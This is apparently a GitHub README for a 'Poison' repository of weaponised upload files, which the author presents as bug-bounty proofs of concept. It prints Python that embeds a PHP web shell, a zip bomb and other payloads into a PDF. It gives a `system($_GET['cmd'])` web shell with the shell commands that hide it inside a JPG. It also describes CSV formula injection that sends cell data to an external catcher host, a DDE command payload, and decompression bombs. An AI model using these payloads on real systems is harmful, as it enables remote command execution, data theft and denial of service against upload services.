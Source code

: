 # Poison
This repo will consist of poisoned PDF, images, documents and pictures like those used by the North Korean APT's

## New additions due to new findings:
Like Polyglot extensions leading to OOB attacks and image processing bypasses on profile upload services.
shell.php.jpg and mal.csv.jpg DeadmanXXXII.pdf is brand new amd you need to be careful.

### DeadmanXXXII.pdf
This is a pdf created by two python scripts.
mintpdf.py
```python
from fpdf import FPDF

pdf = FPDF()
pdf.add_page()
pdf.set_font("Arial", size=12)
pdf.multi_cell(0, 10, "Hello if this is uploaded you have a critical vulnerability.\nContact BugCrowd and ask for DeadmanXXXII P1 dangerous file inclusion report.")
pdf.output("container.pdf")
```
and
printpdf.py
```python
import pikepdf

# Open existing PDF
pdf = pikepdf.open("container.pdf")

# Files to embed
files_to_embed = [
    "shell.php",
    "malicious.mp4",
    "poison_image.svg",
    "harmless.txt",
    "mal.csv",
    "zipbomb.py",
    "dangerous_bomb.zip",
    "test.sql"
]

# Attach each file
for f in files_to_embed:
    with open(f, "rb") as file_obj:
        pdf.attachments[f] = file_obj.read()

# Save output
pdf.save("DeadmanXXXII.pdf")
pdf.close()
```
inside the venv you see. Then if you nano the pdf to check you should see this.
![Usage](https://raw.githubusercontent.com/DeadmanXXXII/Poison/main/Screenshot_20250822-085722.png)

Now all you need is to be able to upload this and you have a dangerous file inclusion vulnerability. Specifically here make sure you don't just set off the zipbomb.py as it will activate the bomb.zip this is a memory overload attack and if your system doesn't jave the space you will crash. I wouldn't worry so much about the rest with this as it is.

### File: poison_image.svg
This is a basic example PoC of a svg image that forces a .txt download but is recognized by a server as a harmless blue blue square 🟦 like this one.
The .txt file in particular just states

```
You clicked my poison picture from while I was bug hunting.
This is harmless, it just forces this download of this.
Built by: DeadmanXXXII
```


The fact that you are able to read this means it worked and your server processes .svg as much as this format like .pdf is highly recognized for simplicity of business functions.
It's extremely dangerous.
.txt .png only in a secure environment 
.txt only in zero trust as you can re appendage later.

#### Why?

Simply because that could be disruption s+d.py in base64 and if you allow creation in your system as you haven't banned them and your cron policies are bad. You have about 3mins to check your last backup time and find that script, without responding to the request and packet floods thinking you are being Ddos'd when it activates before it erases upto 75% of all records on the device its managed to get hold of. By ten minutes if you haven't got a backup I hope your paper records are good.

This was a 🟦 and is now an actual picture to seem less conspicuous.


![Usage](https://raw.githubusercontent.com/DeadmanXXXII/Poison/main/Nethinter-use-evidence.png)


### File: mal.csv

Description: This file is a Proof-of-Concept for a CSV Injection (Formula Injection) vulnerability. It contains specially crafted spreadsheet formulas designed to demonstrate two potential attack vectors:

Data Exfiltration/External Interaction: The =HYPERLINK formula attempts to force an outbound HTTP/S request to a controlled external server (https://deadmanxxxii.requestcatcher.com/ with commands ?data=\",A1)) and log?data=\"&A2&\"_\"&B2,\"Click for info\"). This proves that arbitrary external connections can be initiated from the victim's spreadsheet, allowing for potential data exfiltration or redirection to phishing sites.
Web Service Interaction: The =WEBSERVICE formula attempts to fetch data from an external URL, similarly confirming external connectivity and potential data leakage or interaction with attacker-controlled web services.
This if the request is made as is can be classified as an OOB attack.

### File: malicious.csv

Description: This file is a Proof-of-Concept for a CSV Injection (Formula Injection) vulnerability, focusing on internal formula execution and client-side command execution. It contains two primary malicious formulas:

Basic Formula Execution: The =2+2 formula demonstrates that the spreadsheet program is indeed interpreting and executing injected formulas, serving as a foundational test.
Client-Side Command Execution (DDE): The =CMD|' /C calc'!A0 formula attempts to execute an operating system command (specifically, opening the calculator on a Windows machine) via Dynamic Data Exchange (DDE). While modern spreadsheet programs often display security warnings for DDE, its attempted execution proves the potential for arbitrary command execution on the client's system.


### File: create_zip_bomb.py

Description: This Python script is a utility designed to generate a "zip bomb" file. A zip bomb (also known as a "decompression bomb") is a malicious archive that is very small in compressed size but expands to an extremely large uncompressed size when extracted. This property makes them dangerous for causing Denial of Service (DoS) attacks by exhausting a target system's disk space, memory, or CPU resources during decompression.

Functionality:
The script works by leveraging recursive compression:

Initial Dummy File: It first creates a highly compressible dummy file (e.g., filled with null bytes) of a specified size.
Layered Compression: It then iteratively compresses the previously created zip file into a new zip file for a specified number of "layers." This process, though simple, leads to an exponential increase in the theoretical uncompressed size with each added layer. The zipfile.ZIP_STORED method is used in the recursive steps to ensure the internal zip files are stored without re-compression, making the expansion effect dramatic.
Output: The final result is a small .zip file (e.g., dangerous_bomb.zip) that, when extracted by a target system, can expand to gigabytes or even terabytes, depending on the configured initial file size and number of layers.
Usage/Parameters:
The script's main function create_zip_bomb takes three key arguments:

initial_file_size_mb: The size (in megabytes) of the initial highly compressible dummy file.
num_layers: The number of times the recursive zipping process is performed. Each layer effectively multiplies the potential uncompressed size.
output_filename: The desired name for the generated zip bomb file (defaults to dangerous_bomb.zip).
Security Context & Purpose (PoC):
This script is intended as a Proof of Concept (PoC) tool for cybersecurity professionals to demonstrate the severe impact of file upload vulnerabilities, specifically Denial of Service through resource exhaustion. By generating a zip bomb, researchers can test a target application's resilience against such attacks, identifying weaknesses in:

File size limits (both compressed and uncompressed).
Decompression safeguards (e.g., sandboxing, memory/CPU limits for file processing).
Error handling and logging during unexpected resource consumption.
Example Configuration (as per the script):
The if __name__ == "__main__": block provides commented-out examples to generate zip bombs of varying uncompressed sizes. For instance, initial_mb = 100 and layers = 100 can create a zip bomb estimated to expand to approximately 100 GB.

Caution: This tool generates files that can cause significant disruption. It should only be used in controlled environments, with explicit authorization, and strictly within the scope of responsible disclosure or bug bounty programs.

### dangerous_bomb.zip

This is an output of the above script with parameters 2GBs and 20 Layers.

![Usage](https://raw.githubusercontent.com/DeadmanXXXII/Poison/main/Screenshot_20250624-224947.png)



### malicious.mp4

This is a special crafted mp4 with an ffyp atom bomb. Its initial state of size is 74kb a small file with 128 mb dump. This can be increased quite drastically.


### test.sql


This is an osquery rule to check for RCE.
-- Description: This Osquery rule is a Proof of Concept (PoC) for Remote Code Execution.
-- It attempts to use the 'system()' table to execute an external command.
-- Successful execution will result in an HTTP callback to the specified Request Catcher URL,
-- proving the 'system' table is enabled and exploitable.

-- This rule is designed to run once and report its findings.

### embedded_shell.jpg

This is a PHP shell embedded through concatonate in a .jpg file.
The original image 134685209.jpg is a picture of my EHPT+ certificate with this embedded.

```php
<?php system($_GET['cmd']); ?>
```

I did this by saving the shellcode as shell.php 
I then used:

```bash
wget https://raw.githubusercontent.com/DeadmanXXXII/Curriculum-Vitae/main/134685209.jpg
```

to pull the image to my terminal.
Once here in the CLI I entered:

```bash
cat 134685209.jpg shell.php > embedded_shell.jpg
```
This then creates the file with the shellcode embed in its metadata.

### shell.php.jpg
This is simply a double extension to test upload defense mechanics.
The file contains the shell code:

```php
<?php system($_GET['cmd']); ?>
```



